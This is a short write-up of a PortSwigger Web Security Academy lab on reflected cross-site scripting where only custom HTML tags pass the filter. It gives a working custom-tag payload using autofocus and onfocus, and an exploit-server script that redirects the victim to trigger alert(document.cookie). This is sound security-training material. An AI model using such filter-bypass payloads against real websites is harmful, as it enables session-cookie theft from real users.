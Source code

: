 # Reflected XSS into HTML context with all tags blocked except custom ones
> This lab blocks all HTML tags except custom ones.
> 
> To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.

For this lab we need custom tags. Portswigger has a great [cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) for that: 

Worked for me:
`<xss autofocus tabindex=1 onfocus=alert(1)></xss>`

Deliver the payload to the victim using the exploit server.

```html
<script>
location = 'https://0ab4004c046a1cd880762c14003c005d.web-security-academy.net/?search=<xss autofocus tabindex=1 onfocus=alert(document.cookie)></xss>';
</script>
```
